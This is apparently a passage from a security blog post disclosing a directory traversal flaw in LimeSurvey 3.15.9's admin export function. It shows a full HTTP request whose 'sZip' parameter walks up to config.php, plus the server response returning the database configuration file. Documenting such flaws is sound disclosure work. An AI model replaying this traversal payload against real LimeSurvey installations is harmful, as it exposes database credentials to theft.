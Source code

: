 Once the user makes the HTTP request, a call is made to the controller **./application/controllers/admin/export.php** in the downloadZip() function.

This function receives as an argument the value of the "sZip" parameter. As you can see in the code, the parameter **is not correctly sanitized before a Directory Traversal**, so it is possible to access any type of internal server files.

## Give me the file

Below is shown how it is possible to download the LimeSurvey configuration file located at **./application/config/config.php.**

![LimeSurvey File Download](/assets/blog/limesurvey-descargar-fichero.png)
*Demonstration of arbitrary file download through directory traversal*

---

**HTTP Request:**

```http
GET /LimeSurvey-3.15.9-190214/index.php/admin/export/sa/downloadZip/?sZip=../application/config/config.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/LimeSurvey-3.15.9-190214/index.php/admin/survey/sa/listsurveys
Cookie: shortest-last-redirect-time=1500074341246; _ga=GA1.1.1537606638.1500074341; shortest-last-pop-under=1500074352780; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; PHPSESSID=rsh6r3jcnovp0dgs0i4dak5op3; YII_CSRF_TOKEN=WjNuR09MSWZ3Y0hoanV6M1Y1Y2wwQzJIaThZZmJMbEEK4nio9riEgrzfLfI_4GxA3fGccJytOU75JHXW7Vuo-A%3D%3D
Connection: close
Upgrade-Insecure-Requests: 1
```

---

**HTTP Response:**

![LimeSurvey Configuration File](/assets/blog/limesurvey-configuracion.png)
*LimeSurvey configuration file successfully downloaded, exposing database credentials*

```http
HTTP/1.1 200 OK
Date: Tue, 26 Mar 2019 06:04:55 GMT
Server: Apache/2.4.25 (Ubuntu)
Expires: 0
Cache-Control: must-revalidate, post-check=0, pre-check=0
Pragma: public
Content-Disposition: attachment; filename=surveys_archive.zip
Last-Modified: Tue, 26 Mar 2019 06:04:55 GMT
Content-Length: 2729
Connection: close
Content-Type: application/force-download; charset=UTF-8

<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
```